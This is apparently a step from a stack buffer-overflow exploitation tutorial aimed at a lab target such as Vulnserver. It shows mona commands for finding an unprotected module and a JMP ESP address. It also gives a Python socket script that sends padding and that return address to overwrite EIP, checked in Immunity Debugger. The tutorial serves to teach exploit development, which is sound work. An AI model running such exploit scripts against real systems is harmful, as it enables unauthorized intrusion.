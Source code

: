 To find the right module we gotta use mona, the command we need is
`!mona modules`
that should list all the modules and if they have security, you wanna choose the one without security where  all six are false and see the dll for it. 

Example if the dll is essfunc.dll
`!mona find -s "\xff\xe4" -m essfunc.dll`
That should list some more things, pick one of the options and you see an address to the left of it. Example 625011AF, note that somewhere and now in the script type that backwards like below

```python
import socket
from time import sleep

ip, port = "10.10.10.10", 9999 # Change the ip and port
offset = 0  # change this with what you got from step 2
prefix = b"" # change this if necessary and make sure theres a space at the end.
module = b"\xaf\x11\x50\x62" # Change this


try:
	s = socket.socket()
	s.connect((ip, port))
	s.send(prefix + b"A"*offset + module)
except:
	print(f"Something went wrong")

s.close()
```

To test if the module worked we gotta put an breakpoint at that address in Immunity debugger and run it.

To put a breakpoint go to immunity debugger and restart the program and run it, now press at top left window at anywhere and press ctrl+g. that should bring a promt asking "Enter expression to follow" and type the address you had before, in my example 625011AF, that should bring you to it and now press f2 on keyboard to put a breakpoint, now run the script above and see what the EIP is, if the EIP is your address which in my case is 625011AF then the module works, if not pick another one with the previous find command and try that.